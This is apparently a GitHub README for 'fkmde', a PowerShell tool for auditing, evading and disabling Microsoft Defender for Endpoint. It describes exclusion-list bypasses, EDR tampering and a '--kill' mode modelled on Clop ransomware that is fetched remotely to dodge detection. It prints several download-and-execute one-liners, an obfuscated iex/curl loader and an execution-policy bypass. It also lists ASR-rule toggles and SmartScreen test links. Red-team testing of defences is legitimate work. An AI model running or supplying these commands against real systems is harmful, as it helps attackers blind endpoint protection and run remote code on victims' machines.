

# fkmde


`fkmde` is a specialized powershell script designed to evaluate the configuration and operational security of Microsoft Defender for Endpoint (MDE). It aids security professionals, system administrators, and penetration testers in identifying potential vulnerabilities and misconfigurations that might be exploited in a real-world attack.

## Features
- **Defender Full Audit**: Quickly assesses the status of real-time protection, active/passive mode, tamper protection, bitlocker, memory integrity and exclusion settings to detect overly permissive rules that might allow malware to bypass scanning.
- **Bypass Exclusions and ASR Rules**: Utilizes Event 1121 and 5007 to bypass the protected exclusions list in MDE.
- **Exclusion Enumeration**: Allows for low privilege exclusion enumeration, without relying on event log bypass.
- **Defender Tampering**: PendingFileRenameOperations + Junctions EDR Disable
- **Defender Killing**: The script uses techniques similar to those used by Clop Ransomware to disable and evade Microsoft Defender.

## Usage

```powershell
fkmde.ps1
fkmde.ps1 --enum <path> [depth]
fkmde.ps1 --kill                     # Run the script from URL
fkmde.ps1 --kill <path>              # Specify a directory for the script to download & execute from
```

- **`--kill` Parameter**  
  This parameter triggers a script that implements techniques similar to those used by Clop Ransomware to disable and evade Microsoft Defender. The script is not hardcoded into `fkmde`, but dynamically fetched from an external source to avoid pre-execution detection. This should be used *only* in secure, isolated environments for research purposes. It is possible to specify a custom directory using the optional <path> argument to download and run the kill script.

- **`--enum <path> [depth]` Parameter**  
  This parameter performs a comprehensive enumeration of directories by using `MpCmdRun.exe`, scanning for exclusions or misconfigurations without relying on event logs or admin permissions. The script dynamically disables Windows Defender popup notifications during execution to provide a seamless experience without alerting users. Upon completion, it safely re-enables the notifications.
  
> [!NOTE]
> Any scripts tampering with the defender are not directly embedded in `fkmde`. Instead, they are loaded dynamically to minimize detection by Defender for Endpoint when the tool is used solely for enumeration purposes.


## Disclaimer
This tool is intended for educational and security research purposes only. The author is not responsible for misuse or for any damage that may occur from using this tool. It is the end user's responsibility to comply with all applicable laws and regulations. The use of this tool against targets without prior mutual consent is illegal.

## Credits
- [VakninHai](https://x.com/VakninHai/status/1796628601535652289/photo/1) - Privilege Bypassing through Windows Event 5007
- [ViziosDe](https://raw.githubusercontent.com/ViziosDe/MDExclusionParser/main/Invoke-MDExclusionParser.ps1) - Privilege Bypassing through Windows Event 1121
- [Friends Security](https://github.com/Friends-Security/SharpExclusionFinder) - Exclusions through MpCmdRun.exe
- [rad9800](https://github.com/rad9800/FileRenameJunctionsEDRDisable) - PendingFileRenameOperations + Junctions EDR Disable


## Pentesting EDR/XDR Solutions



 ```powershell
  // basic method with iex
  Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')

  // parameterized mode with iex and irm
  Invoke-Expression "& { $(Invoke-RestMethod https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1) } --enum C:\Windows 3"

  // another example of parameterized mode with iex and irm
  Invoke-Expression "& { $(Invoke-RestMethod https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1) } --kill C:\Temp"

  // obfuscated execution with ps1-obfuscator seen in the wild
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"

  // bypass execution (this will get flagged in Defender as Medium Incident - Multi-stage incident involving Execution & Discovery)
  powershell -nop -c "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')"
  ```

> [!NOTE]
> By default, the PowerShell [execution policy](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies) is set to `Restricted` on clients, and `RemoteSigned` on servers, when a new `powershell.exe` process is started. These policies block the execution of (unsigned) scripts, but they can be overriden within the current scope. However, this trick does not work when the execution policy is enforced through a GPO. In this case, after starting a new PowerShell session, you can load the script with the second command.

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
Get-Content .\fkmde.ps1 | Out-String | Invoke-Expression
```

This section includes Proof of Concepts (PoCs) and scripts to evaluate the effectiveness of ASR rules, which help secure systems by reducing the attack surface for malicious or unauthorized applications.

### officemacro32.docm

**Rules:**
- **d4f940ab-401b-4efc-aadc-ad5f3c50688a**
- **92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b**

  ```console
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  ```
  
  

> [!NOTE]
> If Microsoft flags the document due to an untrusted source, right-click the document, go to properties, and select the option to trust the source.


### wmiprocess.ps1 

**Rule:**
- **d1e49aac-8f56-4280-b9ba-993a6d77406c**
  
  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enable -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Enable Block process creations originating from PSExec and WMI commands
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Disable Block process creations originating from PSExec and WMI commands
  ```
  

  
## Smart Screen

A collection of Smart Screen test links to evaluate various behaviors, including phishing, malware detection, and exploit blocking.

- [Smart Screen Test](https://commandcontrol.smartscreentestratings.com)
- [Smart Screen Test 2](https://smartscreentestratings2.net)
- [Phishing Test](https://demo.smartscreen.msft.net/phishingdemo.html)
- [Malware Detection](https://demo.smartscreen.msft.net/other/malware.html)
- [Untrusted Download](https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe)
- [Exploit Test](https://demo.smartscreen.msft.net/other/exploit.html)


